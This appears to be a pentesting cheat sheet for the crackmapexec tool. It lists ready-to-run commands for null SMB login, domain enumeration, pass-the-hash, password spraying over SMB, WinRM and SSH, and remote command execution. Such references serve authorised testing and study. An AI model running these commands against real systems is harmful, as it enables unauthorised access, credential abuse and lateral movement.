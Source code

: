 - crackmapexec  

Null authentication :  
```
crackmapexec smb $HOST -u '' -p ''
```

Enum :  
```
# shares :
crackmapexec smb $HOST -u $USER -p $PWD --shares

# sessions :
crackmapexec smb $HOST -u $USER -p $PWD --sessions

# disks :
crackmapexec smb $HOST -u $USER -p $PWD --disks

# logged-on users :
crackmapexec smb $HOST -u $USER -p $PWD --loggedon-users

# domain users :
crackmapexec smb $HOST -u $USER -p $PWD --users

# domain groups :
crackmapexec smb $HOST -u $USER -p $PWD --groups

# password policy :
crackmapexec smb $HOST -u $USER -p $PWD --pass-pol
```

Pass-The-Hash :  
```
crackmapexec smb $HOST -u $USER -H $HASH
```

Password spraying :  
```
# smb
crackmapexec smb $HOST -u $USER_FILE -p $PWD_FILE

# winrm
crackmapexec winrm $HOST -u $USER_FILE -p $PWD_FILE

# ssh
crackmapexec ssh $HOST -u $USER_FILE -p $PWD_FILE
```
With `$PWD_FILE` containing the list of passwords to test against the users listed in `$USER_FILE`.  

Execute command :
```
crackmapexec winrm $HOST -u $USER -p $PASS -X "whoami /all"
```

More [here](https://mpgn.gitbook.io/crackmapexec/).  
